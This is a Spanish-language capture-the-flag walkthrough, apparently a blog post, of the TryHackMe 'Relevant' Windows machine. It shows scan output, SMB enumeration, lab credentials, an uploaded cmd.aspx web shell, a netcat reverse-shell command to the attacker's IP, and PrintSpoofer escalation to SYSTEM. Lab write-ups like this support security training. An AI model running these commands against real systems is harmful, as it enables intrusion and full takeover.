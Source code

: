 ```yaml
---
layout: post
title:  "Relevant - TryHackMe"
date:   2021-05-14 7:21:00 +0200
last_modified_at: 2021-05-14 07:21:29 +0200
toc:  true
tags: [ctf, windows, Tryhackme, Walkthrough, SeImpersonatePrivilege]
---
```


{: .message}

Es una maquina windows interesante en la parte inicial y en la escalada que puede presentar un reto.
## Enumeracion
*Puertos:*
```plaintext
80/tcp   --> Microsoft IIS httpd 10.0
135/tcp  --> Microsoft Windows RPC
139/tcp  --> Microsoft Windows netbios-ssn
445/tcp  --> Windows Server 2016 Standard Evaluation 14393 
3389/tcp --> Microsoft Terminal Services
```
### Nmap
*Para escanear todos los puertos rapido:*
```bash
nmap -p- -sT --min-rate 5000  10.10.89.170 -oG Scanport1
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-13 20:26 EDT
Stats: 0:00:03 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 6.97% done; ETC: 20:27 (0:00:40 remaining)
Nmap scan report for 10.10.89.170
Host is up (0.15s latency).
Not shown: 65530 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 40.94 seconds
```

*Escaneo mas exhaustivo:*

```bash
# Nmap 7.91 scan initiated Thu May 13 20:35:05 2021 as: nmap -sC -sV -p80,135,139,445,3389 -oN Scanport2 10.10.89.170
Nmap scan report for 10.10.89.170
Host is up (0.17s latency).

PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2021-05-13T23:35:20+00:00
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2021-05-12T23:22:38
|_Not valid after:  2021-11-11T23:22:38
|_ssl-date: 2021-05-13T23:36:01+00:00; -59m59s from scanner time.
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 24m00s, deviation: 3h07m50s, median: -59m59s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-05-13T16:35:20-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-05-13T23:35:21
|_  start_date: 2021-05-13T23:23:14

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May 13 20:36:01 2021 -- 1 IP address (1 host up) scanned in 56.40 seconds
```

### Masscan

*Aqui hago uso de otra utilidad para confirmar lo que tengo y descartar falsos positivos:*

```bash
masscan -e tun0 --rate=500 -p 0-65535 10.10.173.246
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2021-05-14 21:58:30 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [65536 ports/host]
Discovered open port 445/tcp on 10.10.173.246                                  
Discovered open port 3389/tcp on 10.10.173.246                                 
Discovered open port 49667/tcp on 10.10.173.246
Discovered open port 49663/tcp on 10.10.173.246
```

### SMB enumeration

Carpeta compatida de interes: *nt4wrksv*

```json
smbmap -H 10.10.89.170 -u benji -p benji                                                 3s
[+] Guest session       IP: 10.10.89.170:445    Name: Relevant                                          
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        nt4wrksv                                                READ, WRITE
```

### Credentials

Estas fueron obtenidas de la carpeta compartida nt4wrksv

```plaintext
Bob - !P@$$W0rD!123
Bill - Juw4nnaM4n420696969!$$$
```

## SMB upload cmd.aspx

La idea es que si te metes por la web: http://ip:49663/nt4wrksv/passwords.txt puedes visualizar los archivos que se encuentra en el smb. Entonces teniendo esto claro la idea es subir una cmd.aspx. (Primero probe con la cmd.asp pero esta no me dio resultado y luego pase a la cmd.aspx)

Vemos como se nos muestra una cmd:
http://ip:49663/nt4wrksv/cmd.aspx 

## Shell inicial

Corremos un servidor de smb y luego tiramos de un archivo compartido que es nc.exe y nos lazamos una reverse:

```bash
\\10.9.206.201\share\nc.exe 10.9.206.201 4444 -e cmd.exe
```

```bash
listening on [any] 4444 ...
connect to [10.9.206.201] from (UNKNOWN) [10.10.173.246] 49887
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>
```


## PrivEsc

El primer comando siempre debe ser ```whoami /priv``` para saber los permisos que posee ese usuario:

```bash
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Aqui resalta el famoso SeImpersonatePrivilege, para la explotacion de dicho privilegio se hace tirando de este [binario](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0)

Ejecutamos el binario desde el directorio de bob:

```bash
\\10.9.206.201\share\PrintSpoofer64.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

whoami
whoami
nt authority\system

C:\Windows\system32>
```

MACHINE PWNED!!!!!
